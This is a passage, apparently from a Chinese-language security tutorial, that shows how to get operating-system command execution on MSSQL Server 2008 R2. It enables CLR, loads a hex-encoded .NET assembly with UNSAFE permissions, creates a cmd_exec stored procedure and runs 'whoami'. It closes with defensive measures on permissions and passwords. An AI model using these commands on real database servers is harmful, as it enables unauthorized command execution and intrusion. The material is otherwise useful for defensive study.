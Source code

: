 由于笔者这里用的是2008 R2版本的数据库，故使用低版本.net 3.5编译 ,并将生成后的文件内容转换成十六进制字符串进行存储

![img](https://www.yunzhijia.com/microblog/filesvr/5dab2f28a372595c616320a8)

启用当前数据库CLR功能

```
Sp_Configure 'clr enabled', 1
RECONFIGURE
```

将程序集加载到内存中

```
CREATE ASSEMBLY [my_assembly] AUTHORIZATION [dbo] FROM 
0x4D5A90000300000004000000FFFF0000B800000000000000400000000000000000000000000000000000000000000000000000000000000000000000800000000E1FBA0E00B409CD21B8014CCD21546869732070726F6772616D2063616E6E6F742062652072756E20696E20444F53206D6F64652E0D0D0A2400000000000000504500004C010300C8D0A65D0000000000000000E00002210B0108000008000000060000000000004E270000002000000040000000004000002000000002.....
```

修改允许程序集不受限制访问SQL Server 内部和外部资源，

```
WITH PERMISSION_SET = UNSAFE
```

从加载的程序集创建存储过程

```
CREATE PROCEDURE [dbo].[cmd_exec] @execCommand NVARCHAR (4000) AS EXTERNAL NAME [my_assembly].[StoredProcedures].[cmd_exec];
```

执行输出系统命令

```
EXEC[dbo].[cmd_exec] 'whoami'
```

## 0x04 防御措施

1、用户权限分配时，剥夺CREATE ASSEMBLY, CREATE PROCEDURE, EXEC权限。

2、对MSSQL Server 启动服务权限进行分配，限制高权限用户启动

3、加强数据库账号口令策略，避免存在弱口令。